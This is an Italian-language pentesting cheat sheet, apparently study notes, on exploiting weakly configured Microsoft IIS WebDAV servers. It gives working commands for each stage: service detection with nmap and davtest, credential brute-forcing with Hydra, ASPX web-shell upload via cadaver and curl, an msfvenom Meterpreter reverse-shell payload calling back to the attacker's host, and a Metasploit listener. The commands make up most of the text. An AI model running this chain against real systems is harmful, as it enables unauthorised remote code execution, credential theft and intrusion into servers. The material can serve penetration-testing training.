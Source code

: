# Microsoft IIS WebDAV – Introduzione e Exploit
**WebDAV (Web Distributed Authoring and Versioning)** è un protocollo composto da un set di estensioni HTTP che consentono agli utenti di modificare e gestire in modo collaborativo i file su server web remoti. <br>
WebDAV espone in genere la stessa porta del sito (80/443) e supporta metodi aggiuntivi come `PROPFIND`, `MKCOL`, `PUT`. <br>

Una configurazione debole (per‑mancanza di ACL o controllo sul metodo **PUT**) consente a un attaccante di **caricare ed eseguire file arbitrari**, ottenendo RCE.

---

## 1 – Rilevazione del servizio WebDAV

`nmap -p80,443 --script=http-enum <IP>` ⟶ lo script individua directory WebDAV note. <br>
Dopo aver confermato la presenza di WebDAV, possiamo testare il suo comportamento con: <br>
`davtest -url http://<IP>/webdav` ⟶ sonda metodi (PUT, MKCOL, PROPFIND) e verifica upload se non é protetta da password. <br>
`curl -X OPTIONS http://<IP>/webdav -i` ⟶ elenca i metodi HTTP; se `PUT` è presente, è vulnerabile. <br>

---

## 2 – Brute‑force credenziali (opzionale)

Una volta confermata la vulnerabilità, possiamo tentare di scoprire le credenziali di accesso usando Hydra: <br>
`hydra -L /usr/share/wordlists/common_users.txt -P /usr/share/wordlists/common_passwords.txt -s 80 -f -u <IP> http-get /webdav` <br>

* `-L` / `-P` puntano ai file utenti / password. <br>
* `-s 80` specifica la porta. <br>
* `-f` interrompe alla prima coppia valida. <br>
* `-u` mantiene la stessa connessione. <br>

Se il server usa HTTPS, sostituisci `http-get` con `https-get` e porta 443: <br>

---

## 3 – Verifica upload con **davtest**

dopo aver scoperto le credenziali di accesso, analizziamoi il comportamento usando davtest: <br>
`davtest -auth <user>:<pass> -url http://<IP>/webdav` ⟶ stessa prova ma autenticata. <br>

Se `PUT` va a buon fine, verrà indicato “SUCCESS” per l’estensione caricata.

---

## 4 – Upload di una Web‑Shell con **cadaver**

`cadaver http://<IP>/webdav` ⟶ client WebDAV interattivo. <br>
`put C:\\webshell\\cmd.aspx` ⟶ carica la web‑shell ASPX. <br>

Tutte le web shells disponibili su kali sono visualizzabili al path 
`/usr/share/webshells`

Dopo aver caricato una webshell, ricaricando la pagina del browser dov’era aperta la pagina di WebDAV, possiamo visualizzare la shell caricata quindi, cliccando su di essa per eseguirla, potremmo avere una schermata con la possibilità di inserire dei comandi

---

## 5 – Upload via curl (metodo rapido)
possiamo anche caricare la shell usando curl:

`curl -T shell.aspx http://<user>:<pass>@<IP>/webdav/shell.aspx` ⟶ carica shell ASPX. <br>

---

## 6 – Generazione Payload con **msfvenom**
é possibile generare una shell usando msfvenom: 

`msfvenom -p windows/meterpreter/reverse_tcp LHOST=<KaliIP> LPORT=<Port> -f aspx > shell.aspx` <br>

Carica `shell.aspx` via `cadaver` o `curl`; una volta richiamato, avrai la sessione Meterpreter.

---

## 7 – Listener Metasploit

`use multi/handler` ⟶ modulo listener generico. <br>
`set payload windows/meterpreter/reverse_tcp` ⟶ definisce il payload. <br>
`set LHOST <KaliIP>` ⟶ IP della macchina Kali. <br>
`set LPORT <Port>` ⟶ porta configurata nel payload. <br>
`run` ⟶ avvia il listener in attesa della connessione. <br>

---
